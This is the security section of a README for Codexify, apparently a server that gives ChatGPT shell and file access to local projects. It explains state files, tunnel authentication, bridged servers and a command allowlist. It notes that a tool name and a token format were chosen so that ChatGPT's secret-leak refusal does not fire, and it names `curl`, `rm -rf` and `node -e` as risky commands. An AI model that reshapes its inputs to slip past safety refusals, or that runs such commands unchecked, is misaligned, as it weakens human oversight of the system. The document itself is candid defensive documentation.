- **Namespaced diff state inside Git**: ChatGPT diff checkpoints are exactly two refs per conversation/project pair under `refs/codexify/diff/`. Synthetic snapshots contain only the selected project path, are built through a temporary index, and never modify the real index or working tree. Generic MCP-client checkpoints are in memory only. Existing `refs/codexify/review/` checkpoints are migrated lazily into the diff namespace. The namespace grows with the number of distinct persistent conversation/project pairs; the diff section documents inspection and manual removal.
- **Bounded state writes outside the work directory**: `remember` and `update_plan` write `memory.json` under `~/.codexify/projects/`. Multi-project mode also writes one small project-binding record under `~/.codexify/conversation-projects/` for each ChatGPT conversation and access root. Per-conversation authorization writes a small marker under `~/.codexify/conversation-authorizations/`. Native file export writes durable capability records and an LRU-bounded immutable snapshot pool under `~/.codexify/artifacts/`; records remain after snapshot eviction so old conversation links can use source fallback. Binding and authorization filenames are derived from a hash of `openai/session`; the raw identifier is not stored. Authorization namespaces include a one-way digest of the canonical work directory and configured token, while marker contents store only the grant. Set `memory.enabled` to `false` to disable plans and notes; set `artifactEgress.enabled` to `false` to disable new native exports and bridged resource proxying. Delete only state whose capabilities or bindings you intentionally want to invalidate. See [Context and memory](#context-and-memory).
- **Bounded reads outside the work directory**: [skills](#skills) may live in `~/.agents/skills`, `~/.codex/skills`, `~/.claude/skills`, or an enabled installed Codex/Claude Code plugin. Codex plugin discovery reads only Codex's user config, active plugin-cache package, manifest, and declared skill roots; `skills_read` then opens files only inside a discovered skill package. Its `resource` path is checked against the skill's own directory, so it cannot walk out into the rest of your home directory. `skills_list` reports the absolute path of every skill it found. Set `skills.enabled` to `false` to switch it off, `skills.includePlugins` to `false` to suppress plugin packages, or `skills.dirs` to point the standalone user scope somewhere you choose.
- **Read-only Codex configuration discovery**: MCP import and the project catalogue read the user-level Codex `config.toml` without rewriting it. Project discovery inspects only the top-level `projects` table, does not read candidate project contents, and suppresses rejected absolute paths from MCP output. Set `projectCatalog.codexConfig.enabled` to `false` to disable that provider. Native Codex trust does not override the Codexify access-root boundary.
- **Command execution policy**: `exec_command` is unrestricted by default, matching the requested Codex-like local-agent behavior. Operators who want a guardrail can set `exec.mode` to `"allowlist"`; in that mode every command position in the shell string is checked against the complete `exec.extraAllowedCommands` list. This is a guardrail, not a sandbox: an allowed interpreter can still execute arbitrary code.
- **Bridged servers carry delegated authority**: an explicit `mcpServers` entry or an automatically imported Codex MCP—including one contributed by a Codex plugin—can receive model-directed calls. A stdio upstream launches a real process that runs as your OS user; a Streamable HTTP upstream receives calls plus its configured bearer token and HTTP headers. Catalog mode reduces connector-schema exposure, not runtime authority: `mcp_call_tool` can still dispatch any filtered catalogue entry. Only bridge servers you trust, use `tools`/`disabledTools` to narrow callable operations, prefer catalog mode to keep transitive schemas private, keep secrets in `bearerTokenEnvVar`/`envHttpHeaders` rather than static JSON, set `codexMcp.useCli` to `false` to exclude plugin-only discovery, or set `codexMcp.enabled` to `false` to disable all automatic Codex import. Launch, connection, authentication, and handshake failures are reported rather than silently ignored.
- **Native OpenAI tunnel is outbound-only**: Codexify binds its MCP listener to loopback and supervises OpenAI's official runtime-only tunnel client. Startup fails unless the runtime reports `/readyz` and completes a control-plane poll. Failure of either process stops the other, and HTTP shutdown has a bounded grace period before remaining connections are aborted.
- **The loopback MCP hop is authenticated**: native mode generates a random per-process bearer token and configures the tunnel runtime to send it on MCP requests and discovery probes. The token is never printed, written to the config file, or inherited by model-launched commands and bridged MCP children.
- **Optional conversation-level authorization**: `conversationAuthToken` blocks all tools except the deliberately innocuous `setup` wire tool until the stable ChatGPT conversation presents the configured authentication token as `ref`. Successful grants persist by hashed conversation identity and are invalidated by token rotation; clients without `openai/session` get transport-only grants. Initialization withholds the project-aware brief until authorization succeeds. The `setup(ref)` naming and SHA-256-shaped token avoid ChatGPT's false-positive connector secret-leak refusal; they do not make the token public or replace real authentication. This gate controls model conversations, not network callers: keep the native tunnel, reverse proxy, ChatGPT workspace, and local account secured independently. The token remains plaintext in `codexify.config.json` because the server must compare chat-supplied values, so keep that file private and out of version control.
- **Verified tunnel-client installation**: the managed client is pinned to a specific official release and per-platform archive SHA-256 embedded in Codexify, extracted by exact filename under size limits, installed atomically with private permissions, and hash-checked against its installation manifest on subsequent starts. Set `clientPath` to opt out of managed installation while retaining compatibility checks.
- **Tunnel secrets are references, not config values**: `openaiTunnel.apiKeyRef` accepts only `env:NAME` or `file:/path`; literal API keys are rejected. Codexify resolves the value and exposes it only to the tunnel child under a synthetic environment name, while the child receives a clean, allowlisted environment. Use a restricted runtime key with Tunnels **Read** + **Use**, not an admin key. Private key-file permissions are enforced on Unix. Same-user process inspection and same-user file access remain outside this boundary.
- **Optional bearer token auth in non-native mode**: set `--api-key` to require an `Authorization: Bearer <key>` header on all requests except `/health`. Native mode instead owns its private per-process bearer token. ChatGPT Plugins do not support simple bearer token auth for URL-based connectors.
- **Host allowlist**: set `allowedHosts` to pin the accepted `Host` header for DNS-rebinding protection. See [Host allowlist](#host-allowlist).
- **Tool payload logging is explicitly sensitive**: `toolLogging` / `--log-tool-payloads` can retain source code, paths, commands, model output, and data returned by delegated MCP servers. Redaction removes configured and heuristically recognized credentials before byte-bounded truncation; MCP image content-block base64 and resource-link capability URIs are always omitted. Arbitrary sensitive literals still cannot be identified perfectly. Leave the mode `off` unless the operational visibility is worth that exposure, and protect the process logs accordingly.
- **Audit records exclude payloads by default**: `--audit` writes hashes, timings, result sizes, and redacted argument shape rather than source, file paths, credentials, or returned output. Command previews require a separate opt-in and remain potentially sensitive even after configured and heuristic redaction, so protect the audit file as operational data.

The allowlist is a **guardrail against accidents, not a sandbox**. It catches a model reaching for `curl` or `rm -rf`; it does not contain a determined one. The defaults already include `node`, `python` and `cargo`, each of which runs arbitrary code — `node -e "..."` can do anything the server process can. Shell redirection and explicit absolute or parent paths can also reach outside the active project root even though each command starts with that root as its cwd. Multi-project selection isolates Codexify's structured tools and logical per-conversation project state; it is not an operating-system sandbox. Treat everything below as reachable by whoever is authorized to use the configured connector or external endpoint:

- everything in the active project root, read and write
- in multi-project mode, any project beneath the configured access root can be selected by a new conversation or unbound transport session, and an exact supported Git repository URL can add a checkout beneath `projectCloneDir`; GitHub branch, PR, and commit URLs can additionally target exact revisions
- anything else the user account running the server can touch, via an allowlisted interpreter
- the network, from your machine
- anything a bridged MCP server can do

For clients without stable ChatGPT conversation metadata, `exec_command`
sessions are killed when the MCP transport closes. ChatGPT conversation-owned
sessions instead survive connector transport replacement and are killed by
`exec.idleTimeoutMs` or server shutdown. In either case the kill includes child
processes: `taskkill /T /F` walks the process tree on Windows, and on POSIX each
session gets its own process group that is signalled as a whole. A process that
deliberately re-parents or daemonises itself still escapes, so check for strays
if a run leaves something listening.

The native OpenAI tunnel removes the general public-URL exposure, but it does not reduce the authority of a successful tool call. Keep tunnel and connector permissions narrow, do not point Codexify at directories you do not trust the model with, and set `exec.mode` and the command allowlists tighter than the defaults when the work directory is sensitive. In multi-project mode, the entire access-root subtree is intentionally selectable, so treat the whole subtree as sensitive. For an external tunnel, require tunnel-level access control rather than relying on URL secrecy.

## Dev commands

```bash
cargo run -- --work-dir /path/to/project   # run against a project
cargo build --release                       # optimized binary at target/release/codexify
cargo test                                  # run the test suite
cargo clippy --all-targets                  # lints
cargo fmt                                    # format
```

The design and module layout are documented in [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md).

## Documentation

- **[Wiki](https://github.com/devnoname120/codexify/wiki)** — the end-user guide, from arguments to operational flow. Good starting points:
  - [Quick Start](https://github.com/devnoname120/codexify/wiki/Quick-Start) · [Installation](https://github.com/devnoname120/codexify/wiki/Installation) · [Connecting to ChatGPT](https://github.com/devnoname120/codexify/wiki/Connecting-to-ChatGPT)
  - [CLI Reference](https://github.com/devnoname120/codexify/wiki/CLI-Reference) · [Configuration](https://github.com/devnoname120/codexify/wiki/Configuration) · [Tools Reference](https://github.com/devnoname120/codexify/wiki/Tools-Reference)
  - [How It Works](https://github.com/devnoname120/codexify/wiki/How-It-Works) · [Security Model](https://github.com/devnoname120/codexify/wiki/Security-Model) · [Multi-Project Mode](https://github.com/devnoname120/codexify/wiki/Multi-Project-Mode) · [Bridging MCP Servers](https://github.com/devnoname120/codexify/wiki/Bridging-MCP-Servers)
  - [Troubleshooting](https://github.com/devnoname120/codexify/wiki/Troubleshooting) · [FAQ](https://github.com/devnoname120/codexify/wiki/FAQ)
- **[docs/ARCHITECTURE.md](docs/ARCHITECTURE.md)** — internal design and module layout, for contributors.
- **[CHANGELOG.md](CHANGELOG.md)** — release history.

## License

MIT - see [LICENSE](LICENSE).
